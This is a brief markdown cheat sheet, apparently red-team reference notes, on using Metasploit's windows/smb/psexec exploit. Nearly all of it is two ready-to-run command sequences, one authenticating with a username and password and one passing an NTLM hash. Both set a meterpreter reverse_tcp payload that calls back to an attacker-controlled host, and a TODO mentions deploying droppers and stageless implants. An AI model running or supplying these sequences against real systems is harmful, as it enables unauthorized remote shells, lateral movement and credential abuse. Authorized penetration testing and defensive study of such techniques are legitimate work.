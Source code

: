 # Metasploit

TODO: show the steps when switching payload to `windows/download_exec` when deploying custom droppers especially stageless implants.

Authenticate via username and password.

```
msf exploit(windows/smb/psexec) > set payload windows/x64/meterpreter/reverse_tcp

msf exploit(windows/smb/psexec) > set lhost <attacker_IP>

msf exploit(windows/smb/psexec) > set lport <PORT>

msf exploit(windows/smb/psexec) > set rhosts <target_IP>

msf exploit(windows/smb/psexec) > set smbdomain <domain>

msf exploit(windows/smb/psexec) > set smbuser <username>

msf exploit(windows/smb/psexec) > set smbpass <password>

msf exploit(windows/smb/psexec) > run
```

Authenticate via Pass The Hash

```
msf exploit(windows/smb/psexec) > set payload windows/x64/meterpreter/reverse_tcp

msf exploit(windows/smb/psexec) > set lhost <attacker_IP>

msf exploit(windows/smb/psexec) > set lport <PORT>

msf exploit(windows/smb/psexec) > set rhosts <target_IP>

msf exploit(windows/smb/psexec) > set smbdomain <domain>

msf exploit(windows/smb/psexec) > set smbuser <username>

msf exploit(windows/smb/psexec) > set smbpass aad3b435b51404eeaad3b435b51404ee:<nt_hash>

msf exploit(windows/smb/psexec) > run
```

---
## References

- [SANS: Custom Payloads in Metasploit](https://www.sans.org/blog/custom-payloads-in-metasploit/)